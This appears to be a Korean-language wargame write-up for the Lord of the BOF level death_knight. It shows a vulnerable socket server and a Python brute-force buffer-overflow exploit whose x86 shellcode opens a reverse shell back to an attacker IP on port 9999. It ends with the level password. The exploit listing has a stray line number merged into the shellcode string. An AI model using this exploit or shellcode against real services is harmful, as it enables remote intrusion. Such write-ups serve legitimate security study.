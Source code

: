 ```yaml
---
layout: single
title: "LOB xavius -> death_night"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - dark knight
4          - remote BOF
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  #include <errno.h>
10 #include <string.h>
11 #include <sys/types.h>
12 #include <netinet/in.h>
13 #include <sys/socket.h>
14 #include <sys/wait.h>
15 #include <dumpcode.h>
16 
17 main()
18 {
19         char buffer[40];
20 
21         int server_fd, client_fd;
22         struct sockaddr_in server_addr;
23         struct sockaddr_in client_addr;
24         int sin_size;
25 
26         if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
27                 perror("socket");
28                 exit(1);
29         }
30 
31         server_addr.sin_family = AF_INET;
32         server_addr.sin_port = htons(6666);
33         server_addr.sin_addr.s_addr = INADDR_ANY;
34         bzero(&(server_addr.sin_zero), 8);
35 
36         if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
37                 perror("bind");
38                 exit(1);
39         }
40 
41         if(listen(server_fd, 10) == -1){
42                 perror("listen");
43                 exit(1);
44         }
45 
46         while(1) {
47                 sin_size = sizeof(struct sockaddr_in);
48                 if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
49                         perror("accept");
50                         continue;
51                 }
52 
53                 if (!fork()){
54                         send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
55                         send(client_fd, "You : ", 6, 0);
56                         recv(client_fd, buffer, 256, 0);
57                         close(client_fd);
58                         break;
59                 }
60 
61                 close(client_fd);
62                 while(waitpid(-1,NULL,WNOHANG) > 0);
63         }
64         close(server_fd);
65 }

```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


Reverse shellcode 출처: https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG

```c

1  import sys, struct, socket
2  
3  host = "192.168.235.135"
4  port = 6666
5  
6  hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
7  recvhexport = "\x27\x0f" # port 9999
8  
9  shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
11 padding1 = "A" * 44
12 padding2 = "\x90" * 50
13 payload = ""
14 
15 for i in range(0xff, 0xf0, -1):
16 	for j in range(0xff, 0x00, -1):
17 		for k in range(0xff, 0x00, -1):
18 		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
19 		 	r.connect((host, port))
20 		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
21 		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
22 		 	payload += padding1
23 		 	payload += retaddr
24 		 	payload += padding2
25 		 	payload += shellcode
26 		 	print(r.recv(52))
27 		 	print(r.recv(6))
28 		 	r.send(payload)
29 		 	r.close()

```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life